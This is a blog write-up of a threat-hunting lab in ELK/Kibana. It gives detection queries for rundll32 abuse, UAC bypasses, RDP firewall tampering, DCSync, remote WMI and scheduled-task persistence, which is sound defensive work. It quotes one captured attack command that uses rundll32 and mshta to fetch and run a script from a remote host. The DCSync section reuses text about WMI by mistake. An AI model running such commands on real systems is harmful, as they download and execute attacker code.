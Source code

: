 ```yaml
---
title: Hunting With ELK 2
categories: [Writeup threat_hunting]
tags: [eLearn, threat_hunting, elk, kibana, siem]
---
```

# Scenario 
**Resolvn Threat Hunting Virtual Machine (RTHVM)**

The IT Security manager provided you with simulated malicious activity and has asked you to create hunting detection techniques for all of it.

## Task 1. Hunt for malicious use of rundll32
By employing the sigma rules win_susp_rundll32_activity.yml rules, we can effectively detect and identify processes associated with the malicious utilization of rundll32.

```
((process.args:("*javascript\:*" OR "*.RegisterXLL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*url.dll*" AND process.args:"*OpenURLA*")) OR ((process.args:"*url.dll*" AND process.args:"*FileProtocolHandler*")) OR ((process.args:"*zipfldr.dll*" AND process.args:"*RouteTheCall*")) OR ((process.args:"*shell32.dll*" AND process.args:"*Control_RunDLL*")) OR ((process.args:"*shell32.dll*" AND process.args:"*ShellExec_RunDLL*")) OR ((process.args:"*mshtml.dll*" AND process.args:"*PrintHTML*")) OR ((process.args:"*advpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*advpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*LaunchINFSection*")) OR ((process.args:"*ieadvpack.dll*" AND process.args:"*RegisterOCX*")) OR ((process.args:"*ieframe.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*shdocvw.dll*" AND process.args:"*OpenURL*")) OR ((process.args:"*syssetup.dll*" AND process.args:"*SetupInfObjectInstallAction'*")) OR ((process.args:"*setupapi.dll*" AND process.args:"*InstallHinfSection*")) OR ((process.args:"*pcwutl.dll*" AND process.args:"*LaunchApplication*")) OR ((process.args:"*dfshim.dll*" AND process.args:"*ShOpenVerbApplication*")))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2.jpg){: width="972" height="589" }

```
cmd.exe, /C, rundll32.exe, javascript:\..\mshtml,RunHTMLApplication ;document.write();h=new%%20ActiveXObject(WScript.Shell).run(mshta https://hotelesms.com/talsk.txt,0,true);
```

The query yielded 8 hits that involve the misuse of rundll32.exe. The initial instance shows the execution of code from the internet, where rundll32.exe is utilized to run a JavaScript script downloaded from a remote website  hotelsms[.]com/talsk[.]txt [ref](https://attack.mitre.org/techniques/T1218/011/)

## Task 2. Hunt for UAC Bypass leveraging cliconfg.exe
UAC bypass technique that leverages cliconfg.exe. We can utilize Sysmon event ID 7, focusing on the process executable for cliconfg.exe, and filter for the file path of the "NTWDBLIB.dll" dynamic-link library (DLL) file, commonly known as the "SQL Server Client Library." [ref](https://attack.mitre.org/techniques/T1548/002/)

```
event.id: 7 AND process.executable : cliconfg.exe AND file.path : *NTWDBLIB.dll*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-1.jpg){: width="972" height="589" }
  
We have successfully obtained one match based on our query, revealing the UAC bypass involving cliconfig.exe. Furthermore, by filtering the process ID of the event, which is 880, we gain insights into the specific tool employed by the threat actor.


![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-2.jpg){: width="972" height="589" }


Upon further examination, it becomes evident that the threat actor has employed a UAC bypass technique known as [WinPwnage](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques),  with a flag option of -i 11 which relies on token manipulation. Token manipulation is a method utilized to modify user access tokens, which are security descriptors containing information about a user's privileges and group memberships.  [ref](https://attack.mitre.org/techniques/T1548/002/)


## Task 3. Hunt for RDP settings tampering
To initiate the hunt for RDP settings tampering, we can begin our query by filtering for the process executable "netsh.exe" Additionally, we should include an "add rule" for capturing specific event details that may be indicative of RDP settings manipulation.

```
(((process.executable:"*\\netsh.exe") OR (winlog.event_data.OriginalFileName:"netsh.exe")) AND (process.args:"*\ firewall\ *" AND process.args:"*\ add\ *"))
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-3.jpg){: width="972" height="589" }
The query returned one hit, the threat actor used the "netsh" command to add a firewall rule named "Remote Desktop" with TCP port 3389 allowed for inbound traffic. This could potentially grant unauthorized access through RDP. [ref](https://attack.mitre.org/techniques/T1021/001/)

## Task 4. Hunt for DCSync
Hunting for DCSync, we can use Sigma rule win_dcsync. The rule searches for event ID 4662, which is often related to permissions modifications in Active Directory. To eliminate common legitimate accounts, it excludes user names ending with "*" and specific built-in accounts such as "AUTHORITY" and "Window." The rule focuses on objects with properties matching the DCSync schema identifier (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2) or objects related to replication (object.properties:Replicating). 

```
event.id:4662 AND NOT (user.name:*$ OR user.name:AUTHORITY OR user.name:Window) AND (object.properties:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 OR object.properties:Replicating)
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-4.jpg){: width="972" height="589" }
With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. these process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://d3fend.mitre.org/offensive-technique/attack/T1003.006/)

## Task 5. Hunt for Remote WMI Usage
To hunt for the Remote WMI Usage technique, we can begin by focusing on event ID 4648 and filtering for the process parent name of "WMIC.exe." This combination can help us identify potential instances where WMI (Windows Management Instrumentation) is being used remotely.

```
event.id : 4648 and process.parent.name : *wmi*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-5.jpg){: width="972" height="589" }


With our query, we obtained three hits, suggesting the presence of Remote WMI Usage technique. The three instances of the "WMIC.exe" process being used could potentially indicate attempts by threat actors to leverage WMI for remote code execution or to gather system information from the target systems. [ref](https://attack.mitre.org/techniques/T1047/)


## Task 6. Hunt for persistence through scheduled Tasks
To begin hunting for persistence through scheduled tasks, we will initiate our query by focusing on process name "schtasks" and Sysmon event ID 1, which indicates process creation. 
```
 process.name:schtasks AND event.id:1
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-6.jpg){: width="972" height="589" }
Based on the query, we obtained one hit that reveals the usage of the "schtasks" process to create a scheduled task. This scheduled task creation indicates a potential persistence mechanism used by threat actors to execute a suspicious file ("mshta.exe") from the system's "System32" directory with a command-line argument from an external URL ("hxxps[://]hotelesms[.]com/Injection[.]txt") every 6 minutes when a user logs on. [ref](https://attack.mitre.org/techniques/T1218/005/ )

## Task 7. Hunt for UAC Bypass leveraging SDCLT.EXE
The SDCLT UAC bypass takes advantage of the fact that SDCLT.exe is a trusted Microsoft application that is not subject to UAC prompts. Attackers can leverage this behavior to execute arbitrary code with elevated privileges, potentially allowing them to perform unauthorized actions on the system, compromise its security, and gain persistence.
To hunt for UAC bypass leveraging SDCLT.exe, we can start by focusing on the process with the executable name "sdclt.exe" and filtering for arguments containing "kickoffelev". 

```
process.executable : sdclt.exe AND process.args : *kickoffelev*
```

![]({{site.baseurl}}/assets/img/2023-07-31-eLearnSec-HuntingWithELK-2-7.jpg){: width="972" height="589" }

The presence of one hit indicates the usage of "sdclt.exe" with the argument "kickoffelev." The argument "kickoffelev" is associated with a specific UAC bypass technique known as the "[SDCLT UAC bypass.](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)" [ref](https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/)

## Reference 
- <https://github.com/RESOLVN/RTHVM> 
- <https://attack.mitre.org/techniques/T1218/011/>
- <https://attack.mitre.org/techniques/T1548/002/>
- <https://github.com/rootm0s/WinPwnage#uac-bypass-techniques>
- <https://attack.mitre.org/techniques/T1021/001/>
- <https://d3fend.mitre.org/offensive-technique/attack/T1003.006/>
- <https://attack.mitre.org/techniques/T1047/>
- <https://attack.mitre.org/techniques/T1218/005/>
- <https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/>
- <https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/> 